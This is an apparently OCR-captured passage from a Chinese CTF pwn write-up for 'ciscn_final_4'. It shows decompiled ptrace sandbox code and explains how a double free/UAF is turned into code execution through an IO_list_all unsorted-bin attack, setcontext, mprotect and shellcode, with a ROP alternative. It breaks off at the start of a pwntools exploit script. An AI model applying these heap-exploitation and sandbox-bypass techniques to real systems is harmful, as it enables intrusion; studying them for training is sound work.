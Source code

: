 ```c
        goto LABEL_18;
      new();
    }
  }
}

void __fastcall __noreturn watch(unsigned int a1)
{
  int stat_loc; // [rsp+34h] [rbp-ECh]
  __int64 v2; // [rsp+38h] [rbp-E8h]
  char v3; // [rsp+40h] [rbp-E0h]
  __int64 v4; // [rsp+B8h] [rbp-68h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  wait(0LL);
  while ( 1 )
  {
    ptrace(PTRACE_SYSCALL, a1, 0LL, 0LL);
    waitpid(a1, &stat_loc, 0);
    if ( !(stat_loc & 0x7F) || (char)((char)((stat_loc & 0x7F) + 1) >> 1) > 0 || (stat_loc & 0xFF00) >> 8 != 5 )
      break;
    ptrace(PTRACE_GETREGS, a1, 0LL, &v3);
    v2 = v4;
    if ( v4 == 2 || v2 == 9 || v2 == 57 || v2 == 58 || v2 == 101 )
    {
      puts("hey! what are you doing?");
      exit(-1);
    }
  }
  exit(-1);
}

```

子进程里有`new/delete/write`等功能，存在`double free/UAF`。最多分配32个块，最大分配的size为0x1000。程序没开`PIE`。

#### 漏洞利用

为了调试先`patch`一下原程序，只留子进程方便调试。最开始是想直接HOF一把梭劫持到`setcontext+53`，patch的过了源程序崩了，因为HOF是触发erro报错，这里会调用`mmap`这个系统调用，所以直接挂了。最后还是按照之前*CTF的那道题自己伪造一个0x60的`small bin`，之后ub attack改`IO_list_all`，最终触发_IO_str_overflow等一系列的调用链进到setcontext+53，这里用mprotect修改heap权限，加上可执行，部署shellcode，因为`open`被禁了，拿`openat(0,absolute_path,0)`来`open`文件，之后r/w即可。

第二种方法是结合栈的，这种漏洞其实是很难发现的，在这里我们在malloc的时候输入的位置+`0x38`是我们输入`name`的地方，因为没有开`PIE`我们可以预先设置好`rop chains`，之后用堆漏洞改`__malloc_hook`到一个`pivot gadgets`，从而在`malloc`的时候去执行`rop chain`。这个exp就不写了233。


#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./ciscn_final_4')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./ciscn_final_4')

else:
```